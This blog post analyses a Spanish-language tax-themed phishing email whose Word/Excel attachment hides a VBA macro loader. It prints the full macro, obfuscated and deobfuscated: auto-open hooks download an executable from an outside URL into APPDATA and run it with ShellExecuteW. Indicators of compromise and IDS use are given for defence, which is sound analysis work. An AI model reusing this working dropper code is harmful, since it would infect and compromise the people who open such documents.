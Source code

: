 ```yaml
---
layout: post
title: Malware Analysis SAT_Documento778288
---
```


Today I want to post a real malware analysis which I've done in my actual company. A project manager contacted with me and sent me a suspicious email which seems to be a tipical phising attack. For people who doesn't speak spanish, the body of the email blame us of tax evasion:

![evidence1]({{ site.baseurl }}/images/mlwr_satdocumento01.png)

In the email, the sender appended a doc file attachment with the name "SAT_Documento778288.doc". At first glance, VirusTotal report to us a Macro-based malware, probably written in VBA (Visual Basic for Application). It is interesting to observe how many of the most important AV solutions doesn't detect the malicious code:

![evidence2]({{ site.baseurl }}/images/mlwr_satdocumento02.png)

Analyzing the code, you can see how effectively it is a document that hides a macro written in VBA.
```
Dim JKlWp6gFNDD5rvrAaEWp8W27 As String

Private Declare Function URLDownloadToFileW Lib "urlmon.dll" (ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU2 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU3 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU4 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU5 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU6 As Long) As Long

Private Declare Function ShellExecuteW Lib "shell32.dll" (ByVal M4V4Jbr3 As Long, ByVal JR1QH1m3B3wHSV1D4y7rR As Long, ByVal ocMZjvRbAhK3jMRay8ku5p83pjT0En As Long, ByVal x0UTO3sI0mjsE As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU0 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU1 As Long) As Long

Dim izg2Z6fBgnmpW5474FUgMYhoGVu As String

Sub Auto_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub


Private Function wT2uFiYs90CvHobTzNKS8krV4I2JU() As Variant

''''''

izg2Z6fBgnmpW5474FUgMYhoGVu = "httYG3V6R2l0eKchtIFTVQ5985ps://site.sitYG3V6R2l0eKchtIFTVQ5985ez3.com/soYG3V6R2l0eKchtIFTVQ5985und.YG3V6R2l0eKchtIFTVQ5985mp3YG3V6R2l0eKchtIFTVQ5985"

k = URLDownloadToFileW(0&, StrPtr(Replace(izg2Z6fBgnmpW5474FUgMYhoGVu, "YG3V6R2l0eKchtIFTVQ5985", "")), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), 0&, 0&)

wT2uFiYs90CvHobTzNKS8krV4I2JU7
''''''

End Function

Private Function m8g3C1uuV5DsKrkV1kA2PzVP0() As Long

JKlWp6gFNDD5rvrAaEWp8W27 = Environ("ap" & "pdata") & "\ggg1" & "IOLHnI060NyHiu.exe"

Call wT2uFiYs90CvHobTzNKS8krV4I2JU

End Function

Sub AutoOpen()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub

Private Sub wT2uFiYs90CvHobTzNKS8krV4I2JU7()
Application.DisplayAlerts = False

ShellExecuteW 0&, StrPtr("Open"), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), StrPtr(""), StrPtr(""), 1

Application.Quit
End Sub

Sub Workbook_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub
```
Although it has some techniques of obfuscation implemented, its evasion was simple and in the majority of cases they refer to substitutions of long strings. For example, as it's shown before, the string "YG3V6R2l0eKchtIFTVQ5985" is replaced with "" (nothing). At the end of the analysis, the following could be determined:

1. The analyzed malware is a "loader" that downloads to the infected computer the final malware.
2. Judging from the code, the file can be represented depending on the computer as a Microsoft Word document or as an Excel sheet.
3. The malware has autorun options so that in theory the victim would become infected by opening it.
4. Once opened, the first malware action is to calculate the path where it will be stored on the computer. To do this, it uses the environment variable $ APPDATA and thus build the first part of the route adapted to each victim. Next to it you can see the first IOC, the name of the executable: ggg1IOLHnI060NyHiu.exe
5. After completing this phase, the loader attempts to download the final malware from the URL https://site.sitez3.com/sound.mp3 and store it in the path calculated in step 4. The URL is our second IOC.
6. Finally, the malware runs the binary using the Windows function "ShellExecuteW".

As the final step of the analysis I tried to download the file from the found URL but unfortunately the file was no longer available. Thus, the analysis was not complete since it has failed to execute both static and dynamic analysis of the .exe found. However, thanks to the analysis, it was possible to establish the appropriate rules in the IDS to detect possible infected computers that made calls to download the Windows executable and start cleaning processes.

The deobfuscated code that I cleaned is shown below:

```
Dim nombreEjecutable As String

Private Declare Function URLDownloadToFileW Lib "urlmon.dll" (ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU2 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU3 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU4 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU5 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU6 As Long) As Long

Private Declare Function ShellExecuteW Lib "shell32.dll" (ByVal M4V4Jbr3 As Long, ByVal JR1QH1m3B3wHSV1D4y7rR As Long, ByVal ocMZjvRbAhK3jMRay8ku5p83pjT0En As Long, ByVal x0UTO3sI0mjsE As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU0 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU1 As Long) As Long

Dim urlMalware As String

Sub Auto_Open()
Call llamada_inicio
End Sub


Private Function downloadFile() As Variant

''''''

urlMalware = "https://site.sitez3.com/sound.mp3"

k = URLDownloadToFileW(0&, StrPtr(Replace(urlMalware, "YG3V6R2l0eKchtIFTVQ5985", "")), StrPtr(nombreEjecutable), 0&, 0&)

executionShell
''''''

End Function

Private Function llamada_inicio() As Long

nombreEjecutable = Environ("appdata") & "\ggg1" & "IOLHnI060NyHiu.exe"

Call downloadFile

End Function

Sub AutoOpen()
Call llamada_inicio
End Sub

Private Sub executionShell()
Application.DisplayAlerts = False

ShellExecuteW 0&, StrPtr("Open"), StrPtr(nombreEjecutable), StrPtr(""), StrPtr(""), 1

Application.Quit
End Sub

Sub Workbook_Open()
Call llamada_inicio
End Sub
```
